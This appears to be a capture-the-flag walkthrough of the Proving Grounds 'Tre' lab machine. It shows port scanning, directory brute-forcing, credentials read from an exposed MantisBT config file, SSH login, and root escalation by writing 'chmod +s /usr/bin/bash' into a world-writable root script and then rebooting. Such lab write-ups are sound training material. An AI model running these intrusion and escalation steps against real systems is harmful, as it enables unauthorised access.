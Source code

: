 ```yaml
---
layout: default
title: Tre
parent: Proving Grounds Play
nav_order: 37
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/tre]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.213.84
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 19:16 EST
Nmap scan report for 192.168.213.84
Host is up (0.12s latency).
Not shown: 65519 closed tcp ports (reset), 13 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.00 seconds

```

# Enumeration

---

## 80 | HTTP

### WFUZZ/Gobuster

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ gobuster dir -u http://192.168.213.84 -w /usr/share/wordlists/custom/large_combined.txt -x aspx,php,txt,conf -t 80 -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.213.84
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/custom/large_combined.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,conf,aspx
[+] Timeout:                 10s
===============================================================
2023/11/13 22:32:39 Starting gobuster in directory enumeration mode
===============================================================
/info.php             (Status: 200) [Size: 87828]
/.php                 (Status: 403) [Size: 279]
/system               (Status: 401) [Size: 461]
/cms                  (Status: 301) [Size: 314] [--> http://192.168.213.84/cms/]
/server-status        (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess.aspx       (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess.conf       (Status: 403) [Size: 279]
/.htpasswd.aspx       (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htpasswd.conf       (Status: 403) [Size: 279]
/adminer.php          (Status: 200) [Size: 4654]
/info.php             (Status: 200) [Size: 87828]
/mantisbt             (Status: 301) [Size: 319] [--> http://192.168.213.84/mantisbt/]
/server-status        (Status: 403) [Size: 279]
Progress: 1132565 / 1132570 (100.00%)

```

_adminer.php_ appears to be a MySQL login page

![adminer](../../../assets/images/ctfs/proving_grounds/tre/adminer.png)

Scanned _/mantisbt_ and found _/config_

Checking _/mantisbt/config/a.txt_

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

# Exploitation

---

Return to the _/adminer.php_ page to use the discovered credentials.

![logon](../../../assets/images/ctfs/proving_grounds/tre/logon.png)

Select the _sql command_ menu and run a select ALL command against the _mantis_user_table_

![creds](../../../assets/images/ctfs/proving_grounds/tre/creds.png)

The password for tre is Tr3@123456A!
{: .warn }

We can SSH to the target with the user credentials.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh tre@192.168.213.84
tre@192.168.213.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

```

# Post-Exploitation

---

## Check Sudo Permissions

```bash
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```

We have the ability to run the _/sbin/shutdown_ command.

Maybe that will come in handy later.

## Check Processes

```bash
tre@tre:~$ ps aux | grep root

root       417  0.0  0.1   6728  3268 ?        Ss   18:57   0:02 /bin/bash /usr/bin/check-system

```

Checking _/usr/bin/check-system_

```bash
tre@tre:~$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system

```

We can overrite the file.

```bash
tre@tre:~$ echo "chmod +s /usr/bin/bash" > /usr/bin/check-system
tre@tre:~$ cat /usr/bin/check-system
chmod +s /usr/bin/bash
```

Now we can leverage the sudo permissions on _/sbin/shutdown_

```bash
tre@tre:~$ sudo /sbin/shutdown -r


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh tre@192.168.213.84
tre@192.168.213.84's password:
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 13 23:04:58 2023 from 192.168.45.217
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
bash-5.0# whoami
root

```

